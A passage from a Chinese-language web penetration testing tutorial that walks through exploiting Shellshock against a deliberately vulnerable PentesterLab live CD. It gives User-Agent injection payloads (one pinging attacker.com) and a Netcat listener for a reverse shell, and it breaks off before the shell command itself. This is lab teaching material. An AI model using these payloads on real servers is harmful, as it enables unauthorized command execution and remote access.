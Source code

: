 当 bash shell 接收到前面的一系列字符以及变量时，与其拒绝字符串，bash shell 会接受它以及随后的变量，并将其作为服务器上的命令执行。

正如你在之前利用命令注入漏洞时所看到的，bash shell 常用于 web 应用程序，并且你经常会看到后端、中间件和监控 web 应用程序将变量传递给 bash shell 以执行一些任务。接下来将展示一个利用 shellshock 漏洞的示例，使用来自 PentesterLab 的易受攻击的 live CD（[`www.pentesterlab.com/exercises/cve-2014-6271`](https://www.pentesterlab.com/exercises/cve-2014-6271)）。

# 获取反向 shell

如果你使用 live CD 镜像启动虚拟机，你会得到一个最小系统，其中包括一个加载显示系统信息的非常简单网页的 web 服务器：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00118.jpeg)

如果你查看代理中的请求，你会注意到一个指向`/cgi-bin/status`的请求，其响应包括系统的正常运行时间以及看起来像是`uname -a`命令的结果：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00119.jpeg)

要获取此类信息，状态脚本需要与操作系统通信。有可能它正在使用 bash 进行通信，因为 bash 是许多基于 Unix 的系统的默认 shell，并且当处理 CGI 脚本时，`User-Agent` 标头会变成一个环境变量。要测试是否实际上存在命令注入，你需要测试不同版本的注入。假设你希望目标服务器返回 ping 以验证它是否执行命令。以下是使用通用目标地址的一些示例。注意使用空格和分隔符：

```

() { :;}; ping -c 1 192.168.1.1

() { :;}; /bin/ping -c 1 192.168.1.1

() { :;}; bash -c "ping -c 1 192.168.1.1"

() { :;}; /bin/bash -c "ping -c 1 attacker.com"

() { :;}; /bin/sh -c "ping -c 1 192.168.1.1"

```

作为测试的一部分，你将请求发送到 Burp Suite 的 Repeater，并仅在 `User-Agent` 标头中提交 `() { :;};` 空函数，并获得与无注入相同的有效响应：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00120.jpeg)

如果尝试注入诸如 `uname`、`id` 或单个 `ping` 等命令，你会收到一个错误。这意味着标头实际上正在被处理，你只需要找到发送命令的正确方法：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00121.jpeg)

经过一些尝试和错误，你找到了正确的命令。`ping -c 1 10.7.7.4` 命令将在服务器上执行，并且通过网络嗅探器（例如 Wireshark）在攻击者的机器上捕获到 ping：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00122.jpeg)

现在你已经找到了正确的注入命令，你可以尝试直接访问服务器的 shell。为此，首先使用 Netcat 设置监听器如下所示：

```

nc -lvp 12345

```

然后注入命令。这一次，你正在注入一个更高级的命令，如果成功，将产生一个完全交互式的 shell：
